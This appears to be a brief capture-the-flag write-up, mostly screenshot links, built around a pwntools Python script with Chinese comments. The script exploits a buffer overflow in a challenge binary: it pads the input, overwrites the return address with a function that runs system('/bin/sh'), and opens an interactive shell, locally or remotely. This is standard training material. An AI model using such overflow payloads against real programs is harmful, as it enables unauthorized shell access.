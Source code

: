 ![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-4.png)
![alt text](image-5.png)
![alt text](image-6.png)
![alt text](image-7.png)
![alt text](image-8.png)
![alt text](image-9.png)

```python
from pwn import *

io = process('.\pwn1')              # 本地测试
# io = remote()                     # 远程连接

getshell_code = 0x0040118A          # 包含system("/bin/sh");的函数的地址
# padding = 0xF + 4                   # 偏移量, 32位程序
# payload = b'a' * padding + p32(getshell_code)

padding = 0xF + 8                 # 偏移量, 64位程序
payload = b'a' * padding + p64(getshell_code)

io.sendline(payload)
io.interactive()

```

本地测试
![alt text](image-10.png)

远程连接
![alt text](image-11.png)

![alt text](image-12.png)